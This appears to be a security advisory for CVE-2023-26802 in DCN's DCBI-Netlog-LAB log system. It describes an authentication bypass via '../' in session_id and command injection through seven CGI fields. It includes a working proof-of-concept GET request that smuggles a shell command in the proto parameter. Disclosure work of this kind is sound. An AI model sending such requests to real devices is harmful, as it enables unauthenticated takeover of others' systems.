










# CVE-ID

[CVE-2023-26802](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26802 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26802")

# Information

**Vendor of the products:**    Digital China Networks

**Vendor's website:**

[https://www.dcnglobal.com (Global)](https://www.dcnglobal.com "https://www.dcnglobal.com")

[https://www.dcnetworks.com.cn (China)](https://www.dcnetworks.com.cn "https://www.dcnetworks.com.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**	DCN (Digital China Networks) DCBI-Netlog-LAB

**Affected system version:**	V1.0

**Product page:** 	[https://www.dcnetworks.com.cn/goods/58.html](https://www.dcnetworks.com.cn/goods/58.html "https://www.dcnetworks.com.cn/goods/58.html")

# Overview

`DCN (Digital China Networks) DCBI-Netlog-LAB` is an online behavior log system. `DCN (Digital China Networks) DCBI-Netlog-LAB V1.0` was detected with `authentication bypass vulnerability` and `command injection vulnerability`. An unauthenticated attacker can send crafted requests to bypass authentication through `directory traversal`, and inject arbitrary malicious commands into seven fields `proto`, `ip`, `pport`, `p_dip`, `pdport`, `odev`, and `tport`. Successful exploits could allow the attacker to execute arbitrary commands in remote systems.

# Vulnerability details

The vulnerability was detected in the **`/usr/local/lyx/lyxcenter/web/cgi-bin/network_config/nsg_masq.cgi`** binary.

## Authentication bypass vulnerability

In the `sub_805534E` function, user authentication is performed.





In the `sub_8059C00` function, the `__xstat` function is used to check whether the `/tmp/admincache/{user_name}/{session_id}` path exists. If it does, the authentication check is passed.



The following figure shows the `session` value when the user name is `admin`.



Therefore, we can set `user_name` to `admin` and write `../` in `session_id`, points to the upper-layer directory, causing **`directory traversal`**. In this way, we can bypass this authentication, gain administrator privileges, and continue to exploit the following `command injection vulnerability`.

## Command injection vulnerability

When the `act` field is 2 or 3, the `sub_8049D50` function is called.



In the `sub_8049D50` function, the contents of the `proto`, `ip`, `pport`, `p_dip`, `pdport`, `odev`, and `tport` fields are concatenated into the command string without any filtering.



Finally, whether the `act` field is 2 (that is, a1 is 1) or 3 (that is, a1 is 0), the `popen` function is called with the command string executed as an argument.



To sum up, an unauthenticated attacker can bypass authentication through `directory traversal`, and then make `act` 2 or 3, and inject arbitrary malicious commands into seven fields such as `proto`, thus gaining control of the remote systems.

# Poc

For example, send the following message by the `GET` request.

```
GET /cgi-bin/network_config/nsg_masq.cgi?user_name=admin&session_id=../&lang=zh_CN.UTF-8&act=2&proto=;ls>/usr/local/lyx/lyxcenter/web/hack_result.html; HTTP/1.1
Host: 192.168.5.254
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
```

The above request message is just a demonstration. In addition, you can set `act` to 2 or 3 and inject arbitrary malicious commands into seven fields `proto`, `ip`, `pport`, `p_dip`, `pdport`, `odev`, and `tport`.

# Attack Demo

Before the attack, no `/hack_result.html` page exists.



Follow the POC above to make the request.



After the attack, visit `/hack_result.html` again, you can see `hack_result.html` has been successfully created, and written to the results of the `ls` command to explain that the command `ls>/usr/local/lyx/lyxcenter/web/hack_result.html` we injected has been executed successfully.


